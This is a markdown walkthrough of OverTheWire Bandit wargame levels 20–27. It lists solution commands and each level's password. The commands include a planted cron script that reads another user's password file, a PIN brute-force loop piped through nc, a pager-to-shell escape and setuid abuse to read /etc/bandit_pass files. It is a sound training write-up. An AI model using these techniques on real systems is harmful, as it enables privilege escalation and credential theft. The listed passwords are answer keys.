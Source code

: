 
## Level 20 -> 21
### Look -> ssh, nc, cat, bash, screen, tmux, Unix ‘job control’ (bg, fg, jobs, &, CTRL-Z, …)
#### Solve
```bash
echo -n 'GbKksEFF4yrVs6il55v6gwY5aVje5f0j' | nc -l -p 1234 &
./suconnect 1234
```
**password**: EeoULMCra2q0dSkYj561DX7s1CpBuOBt

## Level 21 -> 22
### Look -> cron, crontab, crontab(5) (use “man 5 crontab” to access this)
#### Solve
```bash
cd /etc/cron.d/
cat cronjob_bandit22
cat /usr/bin/cronjob_bandit22.sh
cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
```
**password**: tRae0UfB9v0UzbCdn9cY0gQnds9GF58Q

## Level 22 -> 23
### Look -> cron, crontab, crontab(5) (use “man 5 crontab” to access this)
#### Solve
```bash
cd /etc/cron.d/
cat cronjob_bandit23
cat /usr/bin/cronjob_bandit23.sh
echo I am user bandit23 | md5sum | cut -d ' ' -f 1
cat /tmp/ #(write echo's result)
```
**password**: 0Zf11ioIjMVN551jX3CmStKLYqjk54Ga

## Level 23 -> 24
### Look -> cron, crontab, crontab(5) (use “man 5 crontab” to access this)
#### Solve
```bash
mkdir /tmp/bnd
cd /tmp/bnd
vim bandit_pass.sh
	#!/bin/bash
	cat /etc/bandit_pass/bandit24 > /tmp/bnd/password
chmod 777 bandit_pass.sh
touch password
chmod 777 password
chmod 777 .
cp bandit_pass.sh /var/spooll/bandit24/foo
cat password
# you need to wait for a minute and read the password file
```
**password**: gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8

## Level 24 -> 25
### Look -> Bash Script
#### Solve
```bash
mkdir /tmp/brutforce
cd /tmp/brutforce
vim bandit_pass.sh
	#!/bin/bash
	touch password
	for i in {1000..9999};
	do
	        echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i"              
	done | nc localhost 30002 > password
	cat password | grep -v "wrong"
chmod +rwx bandit_pass.sh
./bandit_pass.sh
```
**password**: iCi86ttT4KSNe1armKiwbQNmB3YJP3q4

## Level 25 -> 26
### Look -> ssh, cat, more, vi, ls, id, pwd
#### Solve
- Read
	- https://www.geeksforgeeks.org/more-command-in-linux-with-examples/
```bash
ssh -i bandit26.sshkey -p 2220 bandit26@bandit.labs.overthewire.org
#(you have to resize your window until see more command)
#understand how more command works
	:set shell=/bin/bash
	:sh
```
**password**: s0773xxkk0MXfdqOfPRVr9L3jJBUOgCZ

## Level 26 -> 27
### Look ->  ls
#### Solve
- look bandit27-do permissions and understand what should you do!
	- IT'S SO EASY DON'T BE LAZY
```bash
ls -la
./bandit27-do cat /etc/bandit_pass/bandit27
```
**password**: upsNCc7vzaRDx6oZC6GiR6ERwe1MowGB